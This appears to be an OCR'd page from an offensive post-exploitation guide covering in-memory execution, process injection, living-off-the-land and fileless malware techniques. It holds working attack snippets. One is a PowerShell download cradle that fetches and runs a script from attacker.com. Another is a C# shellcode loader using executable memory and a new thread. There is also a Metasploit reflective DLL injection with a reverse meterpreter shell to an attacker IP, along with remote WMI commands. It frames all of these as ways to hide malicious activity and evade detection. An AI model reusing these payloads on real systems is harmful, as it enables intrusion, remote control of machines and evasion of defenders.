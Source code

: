         Using PowerShell:

        powershell

IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/in-mem.ps1')

C# In-Memory Execution:

csharp

        byte[] shellcode = new byte[...]; // Shellcode here
        UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
        IntPtr hThread = CreateThread(0, 0, funcAddr, IntPtr.Zero, 0, ref threadId);
        WaitForSingleObject(hThread, 0xFFFFFFFF);

B. Process Injection

    Description: Injecting code into the memory space of legitimate processes (e.g., explorer.exe, svchost.exe) to hide malicious activities.

    Tools:
        Metasploit: Provides modules for various process injection techniques.
        PowerSploit: A PowerShell post-exploitation framework with injection capabilities.

    Examples:
        Metasploit Process Injection:

        bash

        use exploit/windows/local/reflective_dll_injection
        set payload windows/meterpreter/reverse_tcp
        set LHOST <attacker_IP>
        exploit

C. Living off the Land (LotL)

    Description: Utilizing tools and scripts native to the operating system to perform malicious activities, minimizing the introduction of foreign binaries.
    Examples:

        PowerShell: Using PowerShell scripts for data exfiltration, lateral movement, and persistence.

        powershell

Get-WmiObject -Class Win32_Process -Filter "Name = 'cmd.exe'"

WMI (Windows Management Instrumentation): Execute commands on remote machines.

powershell

        Get-WmiObject -Class Win32_Process -ComputerName <target> -Credential <user> -Filter "Name = 'powershell.exe'"

D. Fileless Malware Techniques

    Description: Techniques that do not rely on traditional malware files, making detection more difficult.
    Examples:
        Script-Based Attacks: Use PowerShell, JavaScript, or VBScript to run malicious code directly.
        Registry-Based Payloads: Store and execute payloads from the registry.
